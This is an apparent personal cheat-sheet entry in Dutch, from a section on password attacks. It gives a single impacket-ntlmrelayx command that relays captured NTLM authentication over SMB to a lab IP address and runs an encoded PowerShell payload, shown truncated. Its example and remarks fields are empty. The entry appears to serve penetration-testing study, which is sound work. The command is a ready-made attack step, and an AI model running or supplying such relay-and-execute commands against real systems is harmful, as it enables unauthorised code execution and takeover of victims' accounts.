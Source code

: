 # 16.Password Attacks — Entry 46

## Categorie

ntlmrelayx

## Commando

```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

## Omschrijving

Performing a relay attack with ntlmrelayx

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

